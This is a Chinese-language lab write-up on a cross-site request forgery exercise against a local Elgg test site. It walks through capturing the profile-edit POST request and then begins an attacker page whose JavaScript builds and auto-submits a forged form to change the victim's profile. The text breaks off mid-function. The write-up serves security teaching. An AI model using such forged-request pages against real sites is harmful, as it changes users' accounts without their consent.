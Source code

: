 ### lab2 修改用户信息 

实验内容：Alice用户有一个自己的描述，她希望Boby也编辑自己的描述，但是Boby用户拒绝了，这时Alice想通过发送一个 url 让Boby用户访问后，自动让Boby自动添加自己的描述。

首先我们需要知道编辑自己的描述需要的请求,同样使用LiveHttpHeader抓包：

使用 alice seedalice 登录，点击左上角的头像；进入用户界面，点击 Edit Profile 可以编辑自己的描述；

>    打开Firefox菜单栏的Tools中的LiveHttpHeader
>    勾选Capture
>    编辑用户资料，点击save；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186466149?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186502460?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这里是抓取到的数据包：

```
    POST /action/profile/edit HTTP/1.1
    Host: www.csrflabelgg.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.csrflabelgg.com/profile/alice/edit
    Cookie: Elgg=ks91qtcsis87selokqauqt96p1
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 569
	__elgg_token=17fb7abf0ec7666aae76d5b03372203f&__elgg_ts=1429842430&name=Alice&description=%3Cp%3Etest%3C%2Fp%3E&accesslevel%5Bdescription%5D=2&briefdescription=test&accesslevel%5Bbriefdescription%5D=2&location=test&accesslevel%5Blocation%5D=2&interests=test&accesslevel%5Binterests%5D=2&skills=test&accesslevel%5Bskills%5D=2&contactemail=test%40email.com&accesslevel%5Bcontactemail%5D=2&phone=123456&accesslevel%5Bphone%5D=2&mobile=123456&accesslevel%5Bmobile%5D=2&website=http%3A%2F%2Ftest.com&accesslevel%5Bwebsite%5D=2&twitter=test&accesslevel%5Btwitter%5D=2&guid=39
```
通过分析我们可以得知编辑用户需要的请求，其中最重要的就是guid，用户的id标识符；于是Alice就写了如下代码并发送给Boby用户进行攻击.

```
	sudo vim /var/www/CSRF/Attacker/csrf.html
```

这里是代码：

```
    <html><body><h1>
    This page forges an HTTP POST request.
    </h1>
    <script type="text/javascript">
    function post(url,fields)
    {
    	//create a <form> element.
    	var p = document.createElement("form");
    	//construct the form
    	p.action = url;
    	p.innerHTML = fields;
    	p.target = "_self";
    	p.method = "post";
    	
		//append the form to the current page.
    	document.body.appendChild(p);
    	//submit the form
    	p.submit();
    }
    function csrf_hack()
    {
    	var fields;
```